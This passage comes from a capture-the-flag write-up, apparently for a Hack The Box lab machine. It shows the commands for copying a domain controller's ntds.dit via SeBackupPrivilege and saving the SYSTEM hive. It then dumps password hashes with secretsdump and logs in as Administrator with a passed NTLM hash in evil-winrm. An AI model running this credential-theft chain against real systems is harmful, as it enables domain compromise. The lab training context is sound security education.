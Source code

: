 With those imported we can run the provided command to copy the file.

Command:
`Copy-FileSeBackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit`

{{< figure src="__GHOST_URL__/content/images/2020/06/image-82.png" >}}

Now we have a copy of the `ntds.dit`. Next we need a copy of the system hive. We run the following to save that cluster.

Command:
`reg save HKLM\SYSTEM C:\Temp\system`

With these two files we can pick our dump [method of choice](https://www.hackingarticles.in/credential-dumping-ntds-dit/). Most of the time `secretsdump` is the tool of [choice](https://medium.com/@bondo.mike/extracting-and-cracking-ntds-dit-2b266214f277). We'll run the following to dump the hashes out.

Command:
`python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -ntds ntds.dit -system system -hashes lmhash:nthash LOCAL -output system_hash`

Now we have our hashes, we can use the same method as before to pass the Administrator in `Evil-WinRM` to login as the Admin.

Command:
`evil-winrm.rb -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee`

{{< figure src="__GHOST_URL__/content/images/2020/06/blackfield_root.gif" >}}

We are in as Admin! We head over and snag the `root.txt` flag!

Hopefully this machine helped you learn something! Send some respect my way if this was helpful!
[HTB Profile](https://www.hackthebox.eu/home/users/profile/95635)



